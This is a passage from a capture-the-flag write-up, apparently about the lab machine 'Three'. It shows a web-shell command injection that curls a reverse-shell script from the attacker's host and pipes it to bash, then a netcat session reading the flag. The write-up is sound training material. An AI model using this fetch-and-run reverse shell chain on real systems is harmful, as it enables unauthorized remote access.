 `python3 -m http.server 8000`

<br>

We can use the `curl` utility to fetch the bash reverse shell file from our local host and then pipe it to `bash` in order to execute it.
Let's visit the following URL containing the payload in the browser.

`http://thetoppers.htb/shell.php?cmd=curl%2010.10.14.28:8000/shell.sh|bash`

<br>

After we had run the payload, we were able to receive a reverse shell on the netcat terminal window.

```shell
┌──(kali㉿kali)-[~/Desktop]
└─$ nc -nvlp 1337
listening on [any] 1337 ...
connect to [10.10.14.28] from (UNKNOWN) [10.129.92.176] 41006
bash: cannot set terminal process group (1541): Inappropriate ioctl for device
bash: no job control in this shell
www-data@three:/var/www/html$ ls
ls
images
index.php
shell.php
www-data@three:/var/www/html$ cd ..
cd ..
www-data@three:/var/www$ ls
ls
flag.txt
html
www-data@three:/var/www$ cat flag.txt
cat flag.txt
a980d99281a28d638ac68b9bf9453c2b
www-data@three:/var/www$
```

<br>
